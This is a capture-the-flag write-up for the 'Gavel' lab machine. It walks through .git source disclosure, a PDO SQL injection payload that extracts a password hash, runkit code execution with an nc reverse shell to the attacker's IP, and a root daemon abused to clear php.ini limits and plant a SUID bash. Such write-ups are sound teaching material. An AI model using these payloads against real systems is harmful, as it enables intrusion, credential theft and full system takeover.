




## Overview

Gavel is a Medium-rated Linux machine that demonstrates several interesting attack vectors:

- Exposed `.git` repository leading to source code disclosure
- A novel SQL injection technique bypassing PDO prepared statements
- Dynamic PHP code execution via `runkit_function_add()`
- Privilege escalation through PHP configuration manipulation in a daemon process

The machine requires a solid understanding of PHP internals, careful code analysis, and creative exploitation techniques.

## Reconnaissance

### Port Scanning

Starting with the standard Nmap scan:

```bash
nmap -sC -sV -oN nmap/initial 10.129.242.203
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
|_  256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-git:
|   10.129.242.203:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: ..
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Gavel Auction
```

The scan reveals a web application running on the standard HTTP port. After adding `gavel.htb` to `/etc/hosts`, I proceeded with directory enumeration.

### Directory Enumeration

```bash
ffuf -u http://gavel.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

**Interesting findings:**

```
/.git/HEAD            (Status: 200) [Size: 23]
/.git                 (Status: 301) [Size: 305] [--> http://gavel.htb/.git/]
/.git/config          (Status: 200) [Size: 136]
/.git/logs/           (Status: 200) [Size: 1128]
/admin.php            (Status: 302) [Size: 0] [--> index.php]
/assets               (Status: 301) [Size: 307] [--> http://gavel.htb/assets/]
/includes             (Status: 301) [Size: 309] [--> http://gavel.htb/includes/]
/index.php            (Status: 200) [Size: 13914]
/rules                (Status: 301) [Size: 306] [--> http://gavel.htb/rules/]
```

The exposed `.git` directory is a critical finding. This typically means we can reconstruct the entire source code repository.

## Initial Access

### Git Repository Exposure

When developers accidentally expose their `.git` directory, attackers can download the entire repository, including commit history, deleted files, and potentially sensitive configuration.

**Downloading the repository:**

```bash
wget -r http://gavel.htb/.git/
cd gavel.htb
git status
```

The output shows numerous deleted files:

```diff
deleted:    includes/.htaccess
deleted:    includes/auction.php
deleted:    includes/auction_watcher.php
deleted:    includes/bid_handler.php
deleted:    includes/config.php
deleted:    includes/db.php
deleted:    includes/session.php
modified:   index.php
deleted:    inventory.php
modified:   login.php
deleted:    logout.php
modified:   register.php
deleted:    rules/.htaccess
deleted:    rules/default.yaml
```

**Restoring deleted files:**

```bash
git restore .
```

Now I have access to the complete application source code, including files that were removed from the live site. This is a goldmine for vulnerability research.

### SQL Injection in PDO Prepared Statements

After analyzing the restored source code, I discovered a potential SQL injection vulnerability in `includes/inventory.php`:

```php
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];

$col = "`" . str_replace("`", "", $sortItem) . "`";

$itemMap = [];
$itemMeta = $pdo->prepare("SELECT name, description, image FROM items WHERE name = ?");

try {
    if ($sortItem === 'quantity') {
        $stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
        $stmt->execute([$userId]);
    } else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
    $results = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (Exception $e) {
    $results = [];
}
```

**Initial Analysis:**

At first glance, this code looks secure:

- It uses prepared statements with parameterized queries
- The `$userId` is properly bound as a parameter
- There's backtick escaping for the column name

However, there's a critical flaw: **the `$col` variable is directly interpolated into the SQL query string**, not passed as a parameter.

#### Understanding the Vulnerability

The problem lies in how PDO prepared statements work. When you write:

```php
$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ?");
```

The `$col` variable is **not** a parameterized value. It's part of the SQL string itself. PDO only parameterizes the `?` placeholder. This means if we can control `$col`, we can break out of the column context and inject arbitrary SQL.

**The Challenge:**

The code wraps the sort parameter in backticks:

```php
$col = "`" . str_replace("`", "", $sortItem) . "`";
```

This removes any backticks we try to inject, preventing us from simply closing the column name. Traditional injection payloads won't work here.

#### The Novel Bypass Technique

After extensive research, I discovered a technique documented in [this blog post](https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/) that exploits PDO comment handling and subquery behavior.

**The Key Insight:**

We can use:

1. A null byte (`%00`) to terminate PDO parsing early
2. SQL comments (`--`) to neutralize the rest of the query
3. A subquery to replace the expected table with our own data source
4. The `\?` escape sequence to bypass parameter binding

**Crafted Payload:**

```
user_id=x` FROM (SELECT password AS `'x` from users)y;#
sort=\?;--%00
```

**Breaking Down the Payload:**

Let's trace how this transforms the SQL query.

**Original query:**

```sql
SELECT `[sort]` FROM inventory WHERE user_id = ?
```

**After injection with our payload:**

```sql
SELECT `\?;--` FROM inventory WHERE user_id = x` FROM (SELECT password AS `'x` from users)y;#
```

**What happens:**

1. `sort=\?;--%00` makes the column name `` `\?;--` ``
2. `user_id=x` FROM (SELECT password AS `'x` from users)y;#` breaks out of the parameter context
3. The backtick in `'x`` closes the column backtick added by the code
4. We inject a subquery: `FROM (SELECT password AS ...)`
5. `#` comments out the rest of the original query
6. `%00` prevents PDO from parsing trailing SQL as intended

**Final HTTP Request:**

```http
POST /inventory.php HTTP/1.1
Host: gavel.htb
Content-Type: application/x-www-form-urlencoded

user_id=x`%20FROM%20(SELECT%20password%20AS%20`'x`%20from%20users)y;%23&sort=\?;--%00
```

**Result:**



The injection successfully extracts the administrator's password hash:

```
$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS
```

#### Cracking the Hash

The hash format `$2y$` indicates **bcrypt**, a strong password hashing algorithm. However, if the password is weak, it can still be cracked with enough time.

```bash
echo '$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt
```

After some time, John successfully cracks the hash:

```
midnight1
```

### Exploiting runkit_function_add()

With administrator credentials (`auctioneer:midnight1`), I logged into the admin panel and discovered a new functionality:



The admin panel allows editing auction rules. Going back to the source code, I found how these rules are processed.

#### Code Analysis

**admin.php** - Where admins inject the rule:

```php
if ($auction_id > 0 && $rule && $message) {
    $stmt = $pdo->prepare("UPDATE auctions SET rule = ?, message = ? WHERE id = ?");
    $stmt->execute([$rule, $message, $auction_id]); // Admin injects malicious PHP code here
    $_SESSION['success'] = 'Rule and message updated successfully!';
    header('Location: admin.php');
    exit;
}

// Later...
$stmt = $pdo->prepare("SELECT * FROM auctions WHERE id = ?");
$stmt->execute([$auction_id]);
$auction = $stmt->fetch(); // Retrieves the auction with the malicious rule
```

**bid_handler.php** - Where the rule is executed:

```php
$rule = $auction['rule'];  // Pulled directly from DB, NO sanitization

if (function_exists('ruleCheck')) {
    runkit_function_remove('ruleCheck');
}

// THIS IS THE VULNERABILITY
runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);
$allowed = ruleCheck($current_bid, $previous_bid, $bidder);  // EXECUTES INJECTED CODE
```

**default.yaml** - Example of legitimate rules:

```yaml
rules:
  - rule: "return $current_bid >= $previous_bid * 1.1;"
    message: "Bid at least 10% more than the current price."

  - rule: "return $current_bid % 5 == 0;"
    message: "Bids must be in multiples of 5."

  - rule: "return $current_bid >= $previous_bid + 5000;"
    message: "Only bids greater than 5000 + current bid will be considered."
```

#### Understanding runkit_function_add()

The `runkit_function_add()` function is part of the Runkit extension, which allows dynamic creation of PHP functions at runtime.

**Syntax:**

```php
runkit_function_add(string $function_name, string $argument_list, string $code)
```

In this case:

- **Function name:** `ruleCheck`
- **Arguments:** `$current_bid, $previous_bid, $bidder`
- **Code body:** Whatever is in the `$rule` variable (which comes from the database)

**Why This Is Extremely Dangerous:**

| Risk Factor | Explanation |
|---|---|
| Dynamic Code Execution | Creates executable PHP functions from raw strings |
| No Input Sanitization | `$rule` comes straight from the database with zero validation |
| Global Scope Execution | Injected code runs with full access to `$pdo`, `$_SESSION`, filesystem |
| Pre-Validation Trigger | Code executes before bid validation, so payload runs even if bid fails |

Essentially, this is `eval()` in disguise. We can execute arbitrary PHP code by simply editing the auction rule.

#### Exploitation

I crafted a malicious rule containing a reverse shell payload:

```php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.143 4444 >/tmp/f"); return false;
```

**Steps:**

1. Login as admin with `midnight1`
2. Navigate to auction rule editor
3. Replace the rule with the reverse shell payload
4. Save the rule
5. Trigger the rule by placing a bid on that auction
6. Catch the shell on my listener

```bash
nc -lvnp 4444
```



**Success!** I now have a shell as the `www-data` user.

## User Flag

After gaining initial access, I began exploring the system:

```bash
www-data@gavel:/var/www/html/gavel$ ls /home
auctioneer
```

There's a user called `auctioneer`. I tried reusing the password we cracked earlier:

```bash
www-data@gavel:/var/www/html/gavel$ su - auctioneer
Password: midnight1
```

**It worked!** Password reuse is a common misconfiguration that often provides easy lateral movement.

```bash
auctioneer@gavel:~$ cat user.txt
33dde783293348e760106732f6b2c61b
```

User flag captured.

## Privilege Escalation

Now comes the interesting part: escalating from `auctioneer` to `root`.

### Understanding the Architecture

After getting the user shell, I started enumerating the system to understand what services are running and what permissions I have.

**Checking my groups:**

```bash
auctioneer@gavel:~$ id
uid=1001(auctioneer) gid=1002(auctioneer) groups=1002(auctioneer),1001(gavel-seller)
```

Interesting: I'm part of a group called `gavel-seller`. This is clearly related to the Gavel application. Let me see what this group has access to.

**Looking for processes:**

```bash
auctioneer@gavel:~$ ps aux | grep gavel
root        1004  0.0  0.0  19128  3888 ?        Ss   08:00   0:00 /opt/gavel/gaveld
```

There's a daemon called `gaveld` running as **root**. This is immediately interesting for privilege escalation.

**Finding files owned by my group:**

```bash
auctioneer@gavel:~$ find / -group gavel-seller 2>/dev/null
/run/gaveld.sock
/usr/local/bin/gavel-util
```

Two files are accessible to the `gavel-seller` group:

1. `/run/gaveld.sock` - A Unix socket (probably for IPC)
2. `/usr/local/bin/gavel-util` - A binary utility

**Examining the binary:**

```bash
auctioneer@gavel:~$ ls -la /usr/local/bin/gavel-util
-rwxr-xr-x 1 root gavel-seller 17688 Oct  3 19:35 /usr/local/bin/gavel-util

auctioneer@gavel:~$ file /usr/local/bin/gavel-util
/usr/local/bin/gavel-util: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=941cf63911b2f8f4cabff61062f2c9ad64f043d6, for GNU/Linux 3.2.0, not stripped
```

The binary is:

- Owned by root
- Executable by the `gavel-seller` group (which I'm a member of)
- Not a SUID binary (no `s` bit in permissions)

This is a crucial observation. Since it's not SUID, when I run `gavel-util`, it executes with my privileges (`auctioneer`), not root privileges.

**Checking the daemon:**

```bash
auctioneer@gavel:~$ ls -ld /opt/gavel/
drwxr-xr-x 4 root root 4096 Nov  5 12:46 /opt/gavel/

auctioneer@gavel:~$ ls -ld /opt/gavel/gaveld
-rwxr-xr-- 1 root root 35992 Oct  3 19:35 /opt/gavel/gaveld
```

The `gaveld` daemon is owned by root and I can't directly execute it or read its code.

#### The Architecture Pattern

After testing the `gavel-util` binary, I discovered it's used to submit YAML files for processing. Here is the architecture:

```
+---------------------------------------------------------+
| User: auctioneer (gavel-seller group)                   |
| - Runs: /usr/local/bin/gavel-util submit file.yaml      |
| - Permission: Can submit YAML files                     |
+------------------------+--------------------------------+
                         |
                         | (submits YAML via socket/filesystem)
                         v
+---------------------------------------------------------+
| Daemon: /opt/gavel/gaveld (running as ROOT)             |
| - Monitors for new YAML submissions                     |
| - Reads YAML files from queue                           |
| - Parses YAML and processes 'rule' field                |
| - Executes PHP code in 'rule' field AS ROOT             |
+---------------------------------------------------------+
```

**Critical Understanding:**

The privilege escalation doesn't happen when we run `gavel-util`; that just delivers our malicious YAML file. The privilege escalation happens when `gaveld` (running as root) picks up and processes our YAML file, executing the PHP code we injected in the `rule` field with root privileges.

This is similar to the web application exploit, but now:

- We're on the system (not remote)
- The processing happens by a root daemon
- We can potentially execute any command as root

#### The Problem: PHP Restrictions

When I first tried to inject a simple reverse shell or command execution in the YAML rule field:

```yaml
rule: system('id'); return false;
```

It didn't work. This is because the PHP configuration used by `gaveld` has security restrictions enabled.

**Common PHP Security Settings:**

```ini
open_basedir=/opt/gavel/
disable_functions=system,exec,shell_exec,passthru,popen,proc_open,...
```

These settings prevent PHP from:

- Executing system commands (`system`, `exec`, etc.)
- Accessing files outside a specific directory
- Using other dangerous functions

Even though `gaveld` runs as root, the PHP interpreter inside it is sandboxed.

However, I discovered I could still use file operations:

```php
file_put_contents('/opt/gavel/test.txt', 'Hello World'); return false;
```

This worked, so `file_put_contents()` was not blocked. This is the path forward.

### Two-Stage PHP Sandbox Escape

The privilege escalation requires two stages:

1. **Stage 1:** Remove PHP security restrictions by overwriting the PHP configuration
2. **Stage 2:** Execute system commands (now unrestricted) to create a SUID bash

#### Stage 1: Disabling PHP Restrictions

**Objective:** Overwrite `/opt/gavel/.config/php/php.ini` to remove all security restrictions.

**Creating the malicious YAML:**

```bash
cat <<'EOF' > /tmp/fix_ini.yaml
name: al3xx
description: disable php restrictions
image: "al3xx.png"
price: 5
rule_msg: "al3xx"
rule: file_put_contents('/opt/gavel/.config/php/php.ini', "engine=On\ndisplay_errors=On\nopen_basedir=\ndisable_functions=\n"); return false;
EOF
```

**What this does:**

The `rule` field contains PHP code that creates a new PHP configuration file:

```php
file_put_contents('/opt/gavel/.config/php/php.ini',
    "engine=On\n" .
    "display_errors=On\n" .
    "open_basedir=\n" .
    "disable_functions=\n"
);
return false;
```

**Understanding the PHP.ini Settings:**

| Setting | Original Value | Our Value | Effect |
|---|---|---|---|
| `open_basedir` | `/opt/gavel/` | empty | PHP can now access any file on the filesystem |
| `disable_functions` | `system,exec,...` | empty | PHP can now use all dangerous functions including `system()` |

**Submitting the payload:**

```bash
auctioneer@gavel:~$ /usr/local/bin/gavel-util submit /tmp/fix_ini.yaml
Item submitted for review in next auction
```

**Important:** After submitting, we must wait a few seconds.

When `gaveld` processes our YAML file and overwrites `php.ini`, the running PHP process doesn't immediately reload its configuration. One of two things typically happens:

1. The daemon restarts periodically and picks up the new config
2. The daemon processes files in batches and reloads config between batches

Either way, wait for the new PHP configuration to take effect before stage 2.

#### Stage 2: Creating SUID Bash

Now that PHP restrictions are removed, we can execute system commands.

**Creating the second malicious YAML:**

```bash
cat <<'EOF' > /tmp/rootshell.yaml
name: al3xx
description: create suid bash
image: "al3xx.png"
price: 5
rule_msg: "al3xx"
rule: system('cp /bin/bash /opt/gavel/rootbash; chmod u+s /opt/gavel/rootbash'); return false;
EOF
```

**What this does:**

The `rule` field now contains a `system()` call (which was blocked before stage 1):

```php
system('cp /bin/bash /opt/gavel/rootbash; chmod u+s /opt/gavel/rootbash');
return false;
```

This command:

1. Copies `/bin/bash` to `/opt/gavel/rootbash`
2. Sets the SUID bit on the copy with `chmod u+s`

**Understanding SUID:**

When a binary has the SUID bit set and is owned by root:

- Any user who executes it will run it with the owner's privileges (root)
- The permission appears as `-rwsr-xr-x` (note the `s` instead of `x`)

Since this command is executed by `gaveld` (running as root), the copied bash will be:

- Owned by root
- Have the SUID bit set
- Allow any user to get a root shell

**Submitting the second payload:**

```bash
auctioneer@gavel:~$ /usr/local/bin/gavel-util submit /tmp/rootshell.yaml
Item submitted for review in next auction
```

Again, wait a few seconds for processing.

**Verifying the SUID binary was created:**

```bash
auctioneer@gavel:~$ ls -l /opt/gavel/rootbash
-rwsr-xr-x 1 root root 1396520 Dec  5 20:26 /opt/gavel/rootbash
```

Perfect. The `s` in `-rwsr-xr-x` confirms the SUID bit is set.

## Root Flag

Now we can execute our SUID bash to get root:

```bash
auctioneer@gavel:~$ /opt/gavel/rootbash -p
```

**Note:** The `-p` flag (privileged mode) is crucial. Without it, bash will drop the SUID privileges.

```bash
rootbash-5.1# whoami
root

rootbash-5.1# id
uid=1001(auctioneer) gid=1002(auctioneer) euid=0(root) groups=1002(auctioneer),1001(gavel-seller)
```

Notice:

- **uid** = 1001 (`auctioneer`) - real user ID
- **euid** = 0 (`root`) - effective user ID (what matters for permissions)
- We have root privileges

**Capturing the root flag:**

```bash
rootbash-5.1# cat /root/root.txt
[root_flag_here]
```



## Key Takeaways

- Exposed `.git` directories can leak full source code and sensitive history
- Prepared statements are not a complete defense if SQL identifiers are unsafely interpolated
- Dynamic code execution helpers like `runkit_function_add()` are dangerous with untrusted input
- Password reuse can enable easy lateral movement after initial compromise
- Root daemons processing user-controlled data are high-value privilege-escalation targets
